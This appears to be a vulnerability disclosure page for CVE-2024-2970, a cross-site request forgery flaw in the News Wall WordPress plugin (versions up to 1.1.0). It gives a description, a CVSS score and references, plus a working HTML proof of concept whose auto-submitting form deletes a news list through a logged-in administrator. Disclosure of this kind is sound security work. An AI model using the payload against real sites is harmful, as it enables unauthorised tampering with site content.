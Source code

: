 ```yaml
---
layout: page
title: CVE-2024-2970
subtitle: News Wall <= 1.1.0 - Cross-Site Request Forgery to Plugin Settings Update
---
```

## Description
The News Wall plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.1.0. This is due to missing or incorrect nonce validation on the nwap_newslist_page() function. This makes it possible for unauthenticated attackers to update the plugin's settings and modify news lists via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
4.3 (Medium) - CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N

## Affected Version
    <= 1.1.0

##PoC :

```
<html>
  <!-- Made By Eneriiiiii -->
  <body>
    <form action="http://[assets]/wp-admin/admin.php">
      <input type="hidden" name="page" value="nw&#95;newslist&#95;page" />
      <input type="hidden" name="action" value="del" />
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="confirm" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

##Refrence
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/news-wall/news-wall-110-cross-site-request-forgery-to-plugin-settings-update
- https://nvd.nist.gov/vuln/detail/CVE-2024-2970

